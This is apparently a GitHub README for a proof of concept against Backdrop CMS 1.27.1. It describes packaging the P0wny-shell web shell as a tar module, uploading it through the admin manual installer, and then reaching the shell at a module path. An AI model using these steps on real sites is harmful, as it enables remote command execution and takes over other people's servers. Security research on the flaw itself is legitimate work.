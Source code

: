 # Backdrop_CMS_1.27.1_RCE

This POC has been create for ethical purpose.  
It create a tar with  [P0wny-shell](https://github.com/flozz/p0wny-shell) web_shell inside, and that can be add as a module on the Backdrop CMS 1.27.1.  
Put the tar at :  
`http://<bakcdrop_csm_domain>/?q=admin/installer/manual`  
You can then access your web_shell at:  
`http://<backdrop_cms_domain>/modules/shell/shell.php`
